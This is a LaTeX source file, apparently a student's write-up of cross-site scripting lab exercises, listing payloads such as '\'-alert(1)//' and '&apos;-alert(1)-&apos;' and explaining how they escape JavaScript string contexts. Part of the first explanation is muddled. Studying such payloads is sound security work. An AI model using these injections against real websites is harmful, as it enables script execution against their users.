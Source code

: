 \documentclass{article}
\begin{document}
\begin{itemize}
	the payloads worked 
	  	    \begin{lstlisting}[frame=single]
\'-alert(1)//  or  \'&alert(1)//  or  \'|alert(1)//  or  \'+alert(1)//
            \end{lstlisting}
\underline{Why It Worked:}
\\The backslash \verb|\| before the quote \verb|\'| becomes \verb|\\'| This means just backslash + quote $\Longrightarrow$ \verb|\'| \\When encodeURIComponent(searchTerms) processes \verb|\';alert()//| $\Longrightarrow$ It becomes: \verb|%5C';alert()//| where \verb|%5C| is the URL-encoded backslash \\Now Final document.write() Output is 
	  	    \begin{lstlisting}[frame=single]
document.write('<img src="/resources/images/tracker.gif?
searchTerms=%5C';alert()//">');
            \end{lstlisting}
Which renders as HTML:
	  	    \begin{lstlisting}[frame=single]
<img src="/resources/images/tracker.gif?searchTerms=\';alert()//">
            \end{lstlisting}
            The browser sees this HTML and the single quote ' in the URL then Closes the src attribute at searchTerms=\ and XSS trigger by The remaining \verb|';alert()//"| \\
\rule{5cm}{0.4pt}
  \item \textbf{Payload Explaining}
\\the payload $\Longrightarrow$ \verb|http://foo?&apos;-alert(1)-&apos;|
\vspace{5px}
\\ \underline{Why It Worked:}
The payload exploits HTML entity decoding and JavaScript type coercion:
\begin{lstlisting}[frame=single]
Original Input: http://foo?&apos;-alert(1)-'
After HTML Decoding: http://foo?'-alert(1)-'
\end{lstlisting}
Original JavaScript Context:
\begin{lstlisting}[frame=single]
tracker.track('http://foo?&apos;-alert(1)-'')
\end{lstlisting}
After HTML Decoding:
\begin{lstlisting}[frame=single]
tracker.track('http://foo?'-alert(1)-'')
\end{lstlisting}
JavaScript Interpretation:
\begin{lstlisting}[frame=single]
'http://foo?' - alert(1) - ''
\end{lstlisting}


\end{itemize}
\end{document}
